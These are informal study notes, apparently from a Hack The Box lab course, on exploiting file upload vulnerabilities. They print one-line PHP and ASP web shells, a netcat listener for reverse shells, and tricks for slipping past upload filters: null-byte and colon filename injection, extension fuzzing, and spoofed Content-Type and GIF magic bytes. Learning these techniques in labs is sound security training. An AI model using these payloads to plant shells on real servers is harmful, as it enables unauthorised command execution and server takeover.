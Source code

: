 # File Upload Attacks
- The worst possible kind of file upload vulnerability is an unauthenticated arbitrary file upload vulnerability.
- a file upload vulnerability is not only caused by writing insecure functions but is also often caused by the use of outdated libraries that may be vulnerable to these attacks
- If we click on a form to select a file, the file selector dialog does not specify any file type, as it says `All Files` for the file type, which may also suggest that no type of restrictions or limitations are specified for the web application on the FRONT END, there may be some on the back end
-  A web shell has to be written in the same programming language that runs the web server, as it runs platform-specific functions and commands to execute system commands on the back-end server, making web shells non-cross-platform scripts. So, the first step would be to identify what language runs the web application.
-  One easy method to determine what language runs the web application is to visit the `/index.ext` page, where we would swap out `ext` with various common web extensions, like `php`, `asp`, `aspx`, among others, to see whether any of them exist.
-  Once you have identified the web framework running the web application and its programming language, test whether we can upload a file with the same extension.
-  test.php --> `<?php echo "Hello HTB";?>`
-  If we can then download the test.php and it prints the string, we have executed PHP code on the back-end server
-  In PHP, use `system()` to execute commands e.g this is a simple webshell in pho - `<?php system($_REQUEST['cmd']); ?>`
  - Save as a .php and upload to get a web shell in the URL. We can execute system commands with the ?cmd= GET parameter (e.g. ?cmd=id), as follows: `http://SERVER_IP:PORT/uploads/shell.php?cmd=id`
- For .NET Web apps we can use the eval() function: `<% eval request('cmd') %> `
-  [SecLists Webshells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells)
-  We can download any of these web shells for the language of our web application, then upload it through the vulnerable upload feature, and visit the uploaded file to interact with the web shell.
-  If we are using this custom web shell in a browser, it may be best to use source-view by clicking [CTRL+U], as the source-view shows the command output as it would be shown in the terminal, without any HTML rendering that may affect how the output is formatted.
- [phpbash](https://github.com/Arrexel/phpbash)
- It must be noted that in certain cases, web shells may not work. This may be due to the web server preventing the use of some functions utilized by the web shell (e.g. system()), or due to a Web Application Firewall, among other reasons. 
-  [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell)
NetCat listener: `nc -lvnp OUR_PORT` (where OUR_PORT is any free port)
- While reverse shells are always preferred over web shells, as they provide the most interactive method for controlling the compromised server, they may not always work, and we may have to rely on web shells instead.
- Webshell is CLI in browser, where reverse shell is in terminal.

Upload Exploitation Commands - Get Webshell
- Make PHP file `<?php system($_REQUEST['cmd']); ?>`
- Then add `?cmd=cat /flag.txt` to the end of the URL to get flag

Any code that runs on the client-side is under our control. While the web server is responsible for sending the front-end code, the rendering and execution of the front-end code happen within our browser. If the web application does not apply any of these validations on the back-end, we should be able to upload any file type.

To bypass these protections, we can either modify the upload request to the back-end server, or we can manipulate the front-end code to disable these type validations.

- We may also modify the Content-Type of the uploaded file, though this should not play an important role at this stage, so we'll keep it unmodified.
- Reminder: if you upload with nothing in the network tab then it's all happening front end. All front end code you can just remove lol
- In DevTools, go to console and search for functions you see in the front end HTML/Javascript and remove them to remove the front end filtering. Hope that it doesn't break the 'upload' functionality of the site and just removes the filtering element.
- Keep in mind you might come across whitelisting or blacklisting
- Also keep in mind the filtering could be listening for file type or file extension. The weakest form of validation amongst these is testing the file extension against a blacklist of extension to determine whether the upload request should be blocked
- Reminder: Case manipulation (php == PhP etc)
- A whitelist is generally more secure than a blacklist.
- Is the whitelist using regex? if it's matching on file extension just double ext image.jpeg.exe
## Fuzzing Web Extensions
- [SecList Web Extentions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)
- Use 'Intruder' in BurpSuite to fuzz available extensions.
- Note: If using a payload, make sure you untick 'URL-encode these characters' since you don't want the full stop encoded.
- Then look at the 'Length' of each response to see which are allowed.
- Not all extensions will work with all web server configurations, so we may need to try several extensions to get one that successfully executes PHP code.
- Many different file extensions will run php e.g .phar worked for the exercise.

## Character Injection
The following are some of the characters we may try injecting:
```
    %20
    %0a
    %00
    %0d0a
    /
    .\
    .
    …
    :
```
Each character has a specific use case that may trick the web application to misinterpret the file extension. For example, (shell.php%00.jpg) works with PHP servers with version 5.X or earlier, as it causes the PHP web server to end the file name after the (%00), and store it as (shell.php), while still passing the whitelist. The same may be used with web applications hosted on a Windows server by injecting a colon (:) before the allowed file extension (e.g. shell.aspx:.jpg), which should also write the file as (shell.aspx). Similarly, each of the other characters has a use case that may allow us to upload a PHP script while bypassing the type validation test.

- 
### Type Filters
There are two common methods for validating the file content: Content-Type Header or File Content.
Our browsers automatically set the Content-Type header when selecting a file through the file selector dialog, usually derived from the file extension. However, since our browsers set this, this operation is a client-side operation, and we can manipulate it to change the perceived file type and potentially bypass the type filter.

- [Seclists]((https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)
```
Lumington@htb[/htb]$ wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt
Lumington@htb[/htb]$ cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
```

A file upload HTTP request has two Content-Type headers, one for the attached file (at the bottom), and one for the full request (at the top). We usually need to modify the file's Content-Type header, but in some cases the request will only contain the main Content-Type header (e.g. if the uploaded content was sent as POST data), in which case we will need to modify the main Content-Type header.

- The second and more common type of file content validation is testing the uploaded file's `MIME-Type`. `Multipurpose Internet Mail Extensions (MIME)` is an internet standard that determines the type of a file through its general format and bytes structure.
- `file` command uses this e.g
```
Lumington@htb[/htb]$ echo "this is a text file" > text.jpg 
Lumington@htb[/htb]$ file text.jpg 
text.jpg: ASCII text
```
However, 
```
Lumington@htb[/htb]$ echo "GIF8" > text.jpg 
Lumington@htb[/htb]$file text.jpg
text.jpg: GIF image data
```
- So god dam important to read the source code - the date was prepended to the filename which is why i couldnt find my uploaded file :(
